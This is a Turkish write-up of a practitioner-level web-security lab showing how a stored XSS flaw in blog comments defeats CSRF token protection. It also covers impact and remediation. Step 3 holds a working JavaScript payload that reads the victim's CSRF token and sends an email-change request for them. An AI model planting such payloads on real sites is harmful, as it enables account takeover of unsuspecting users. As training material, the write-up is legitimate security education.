




# Exploiting XSS to bypass CSRF defenses

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda uygulamada e-posta değiştirme işlemi CSRF token ile korunuyordu. Normal şartlarda saldırgan, kurban adına `/my-account/change-email` endpoint'ine geçerli bir istek göndermek için kurbanın oturumuna ait güncel CSRF token değerini bilmek zorundaydı.

Ancak blog yorum alanında stored XSS zafiyeti bulunduğu için saldırgan, kurbanın tarayıcısında uygulama origin'i altında JavaScript çalıştırabildi. Aynı origin altında çalışan bu JavaScript önce `/my-account` sayfasını okuyarak CSRF token değerini aldı, ardından bu token ile e-posta değiştirme isteğini gönderdi. Böylece XSS kullanılarak CSRF savunması bypass edildi.

## 3. Exploitation Steps

1. Önce hesaba giriş yapıldı ve `My account` sayfasında e-posta değiştirme formu incelendi. Test olarak yeni e-posta alanına bir değer girildi.

```text
test@gmail.com
```



2. E-posta değiştirme isteği Burp üzerinden incelendi. İsteğin `POST /my-account/change-email` endpoint'ine gittiği ve body içinde hem yeni e-posta adresini hem de `csrf` token değerini taşıdığı görüldü.

```http
POST /my-account/change-email HTTP/2

email=test%40gmail.com&csrf=M4unxZROq8TONWhVzydEfxC8dHNvGaO5
```

Bu adım, e-posta değiştirme işlemi için geçerli CSRF token gerektiğini gösterdi.



3. Blog yorum formundaki stored XSS zafiyetinden yararlanmak için yorum alanına aşağıdaki script payload'ı yerleştirildi. Payload önce `/my-account` sayfasını çağırır, response içinden CSRF token değerini regex ile çıkarır ve ardından token ile birlikte e-posta değiştirme isteği gönderir.

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Yorum formu şu bilgilerle gönderildi:

```text
Name: fizz
Email: buzz@gmail.com
Website: https://google.com
```



4. Yorum gönderildikten sonra payload stored olarak kaydedildi. Sayfa yüklendiğinde script kurbanın tarayıcısında çalıştı, güncel CSRF token alındı ve e-posta değiştirme isteği aynı origin üzerinden başarıyla gönderildi. Bunun sonucunda lab solved durumuna geçti.



## 4. Impact

Bu zafiyet, XSS'in CSRF savunmalarını etkisiz hale getirebileceğini gösterir. Saldırgan, kurbanın tarayıcısında JavaScript çalıştırabildiği için aynı origin altında korunan sayfaları okuyabilir, CSRF token gibi dinamik değerleri çıkarabilir ve kurban adına state-changing işlemler gerçekleştirebilir. Bu labda etki e-posta adresinin değiştirilmesiyle gösterilmiştir.

## 5. Remediation

Stored XSS zafiyeti ortadan kaldırılmalı ve kullanıcı girdileri bulundukları context'e uygun şekilde encode edilmelidir. Blog yorumları gibi kullanıcı kontrollü içerikler HTML olarak yorumlanmamalı, güvenli biçimde text olarak render edilmelidir. Ayrıca inline script çalıştırılmasını kısıtlayan güçlü bir Content Security Policy uygulanmalıdır.

CSRF token kullanımı korunmalı, ancak XSS varlığında CSRF tokenların tek başına yeterli olmadığı unutulmamalıdır. Hassas işlemler için yeniden kimlik doğrulama, SameSite cookie ayarları ve işlem bazlı ek kontroller gibi savunmalar da değerlendirilmelidir.
